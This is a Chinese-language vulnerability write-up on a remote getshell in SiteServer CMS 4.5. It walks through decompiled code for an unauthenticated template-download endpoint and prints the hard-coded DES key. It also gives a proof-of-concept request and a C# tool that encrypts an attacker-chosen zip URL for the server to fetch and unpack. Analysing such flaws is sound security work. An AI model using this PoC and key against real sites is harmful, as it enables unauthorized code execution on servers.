



# 0x00 简介

在N年前有个siteserver的远程getshell，其实这个洞很简单，问题出在下载模板这里。

找个低版本4.5左右的[siteserver](https://github.com/siteserver/cms/releases)下载

# 0x01 漏洞成因

POC

```
192.168.110.129:8081/siteserver/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=hello&downloadUrl=ZjYIub0slash0YxA1HKHKT0add0CAWlTomu1H0add0qeh9upSVU73ZzMc0equals0&directoryName=hello

```

问题文件出在`Ajax/ajaxOtherService.aspx`我们可以看到参数`SiteTemplateDownload`，顾名思义 站点模板下载，比较明显的后台管理方面的漏洞。



找到对应文件，进行反编译看看源码。


>code 0x00

```
public void Page_Load(object sender, EventArgs e)
{
    string a = base.Request["type"];
    NameValueCollection attributes = new NameValueCollection();
    string text = null;
    RequestBody body = new RequestBody();
    if (a == "GetCountArray")
    {
        string userKeyPrefix = base.Request["userKeyPrefix"];
        attributes = this.GetCountArray(userKeyPrefix);
    }
    else if (a == "SiteTemplateDownload")
    {
        string userKeyPrefix2 = base.Request["userKeyPrefix"];
        string downloadUrl = TranslateUtils.DecryptStringBySecretKey(base.Request["downloadUrl"]);
        string directoryName = base.Request["directoryName"];
        attributes = this.SiteTemplateDownload(downloadUrl, directoryName, userKeyPrefix2);
    }
...

```

提出无关代码，当传入的`type`为`SiteTemplateDownload`的时候用`DecryptStringBySecretKey`函数对`downloadurl`进行了解密，跟进这个函数。

```

>code 0x01

public static string DecryptStringBySecretKey(string inputString)
{
    if (string.IsNullOrEmpty(inputString))
    {
        return string.Empty;
    }
    inputString = inputString.Replace("0add0", "+").Replace("0equals0", "=").Replace("0and0", "&").Replace("0question0", "?").Replace("0quote0", "'").Replace("0slash0", "/");
    DESEncryptor desencryptor = new DESEncryptor();
    desencryptor.InputString = inputString;
    desencryptor.DecryptKey = FileConfigManager.Instance.SecretKey;
    desencryptor.DesDecrypt();
    return desencryptor.OutString;
}

```

对传入的值进行简单替换，然后调用`DesDecrypt`进行解密，跟进此函数。

>code 0x02

```
public void DesDecrypt()
{
    byte[] rgbIV = new byte[]
    {
        18,
        52,
        86,
        120,
        144,
        171,
        205,
        239
    };
    byte[] array = new byte[this.inputString.Length];
    try
    {
        byte[] bytes = Encoding.UTF8.GetBytes(this.decryptKey.Substring(0, 8));
        DESCryptoServiceProvider descryptoServiceProvider = new DESCryptoServiceProvider();
        array = Convert.FromBase64String(this.inputString);
        MemoryStream memoryStream = new MemoryStream();
        CryptoStream cryptoStream = new CryptoStream(memoryStream, descryptoServiceProvider.CreateDecryptor(bytes, rgbIV), CryptoStreamMode.Write);
        cryptoStream.Write(array, 0, array.Length);
        cryptoStream.FlushFinalBlock();
        Encoding encoding = new UTF8Encoding();
        this.outString = encoding.GetString(memoryStream.ToArray());
    }
    catch (Exception ex)
    {
        this.noteMessage = ex.Message;
    }
}

```

可以看到是个`DES`加密。 其中密匙`DecryptKey`在上一块代码区指向`FileConfigManager.Instance.SecretKey`

KEY：

```

public string SecretKey { get; } = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";

```

知道密匙和加密方法，很简单就能写出加密解密方法，直接可以直接扣他的代码这里直接写加密方式。


DesEncrypt:

```

using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Security.Cryptography;
using System.Text;
using System.Threading.Tasks;

namespace siteserver
{
    class Program
    {

        static void Main(string[] args)
        {
            DesEncrypt("www.baidu.com/1.zip");
        }
        static public void DesEncrypt(string inputString)
        {
            string encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
            byte[] rgbIV = new byte[]
            {
                18,
                52,
                86,
                120,
                144,
                171,
                205,
                239
            };
            try
            {
                byte[] bytes = Encoding.UTF8.GetBytes((encryptKey.Length > 8) ? encryptKey.Substring(0, 8) : encryptKey);
                DESCryptoServiceProvider descryptoServiceProvider = new DESCryptoServiceProvider();
                byte[] bytes2 = Encoding.UTF8.GetBytes(inputString);
                MemoryStream memoryStream = new MemoryStream();
                CryptoStream cryptoStream = new CryptoStream(memoryStream, descryptoServiceProvider.CreateEncryptor(bytes, rgbIV), CryptoStreamMode.Write);
                cryptoStream.Write(bytes2, 0, bytes2.Length);
                cryptoStream.FlushFinalBlock();
                Console.WriteLine(Convert.ToBase64String(memoryStream.ToArray()).Replace("+", "0add0").Replace("=", "0equals0").Replace("&", "0and0").Replace("?", "0question0").Replace("'", "0quote0").Replace("/", "0slash0"));
            }
            catch (Exception ex)
            {
            }
        }

    }
}

```




在POC中还有参数`userKeyPrefix`和`directoryName` 在`code 0x00`中看到参数传入`SiteTemplateDownload`函数，继续跟进。


```
public NameValueCollection SiteTemplateDownload(string downloadUrl, string directoryName, string userKeyPrefix)
{
    string key = userKeyPrefix + "_TotalCount";
    string key2 = userKeyPrefix + "_CurrentCount";
    string key3 = userKeyPrefix + "_Message";
    CacheUtils.Max(key, "5");
    CacheUtils.Max(key2, "0");
    CacheUtils.Max(key3, string.Empty);
    NameValueCollection progressTaskNameValueCollection;
    try
    {
        CacheUtils.Max(key2, "1");
        CacheUtils.Max(key3, "开始下载模板压缩包，可能需要10到30分钟，请耐心等待");
        string siteTemplatesPath = PathUtility.GetSiteTemplatesPath(directoryName + ".zip");
        FileUtils.DeleteFileIfExists(siteTemplatesPath);
        WebClientUtils.SaveRemoteFileToLocal(downloadUrl, siteTemplatesPath);
        CacheUtils.Max(key2, "4");
        CacheUtils.Max(key3, "模板压缩包下载成功，开始解压缩");
        string siteTemplatesPath2 = PathUtility.GetSiteTemplatesPath(directoryName);
        if (!DirectoryUtils.IsDirectoryExists(siteTemplatesPath2))
        {
            ZipUtils.UnpackFiles(siteTemplatesPath, siteTemplatesPath2);
        }
        CacheUtils.Max(key2, "5");
        CacheUtils.Max(key3, string.Empty);
        progressTaskNameValueCollection = AjaxManager.GetProgressTaskNameValueCollection("站点模板下载成功，请到站点模板管理中查看。", string.Empty);
    }
    catch (Exception ex)
    {
        progressTaskNameValueCollection = AjaxManager.GetProgressTaskNameValueCollection(string.Empty, string.Format("<br />下载失败！<br />{0}", ex.Message));
    }
    CacheUtils.Remove(key);
    CacheUtils.Remove(key2);
    CacheUtils.Remove(key3);
    return progressTaskNameValueCollection;
}

```

`userKeyPrefix` 基本不用管，`directoryName`为下载到本地的zip名，下载后zip自动解压，所以漏洞就形成了。


# 0x02 漏洞复现





# 0x03 总结

存在这个漏洞的首要原因是`Ajax/ajaxOtherService.aspx`文件没有限制权限，任何人都可以访问，在后台中，模板下载上传，往往是`GETSHELL`的关键点。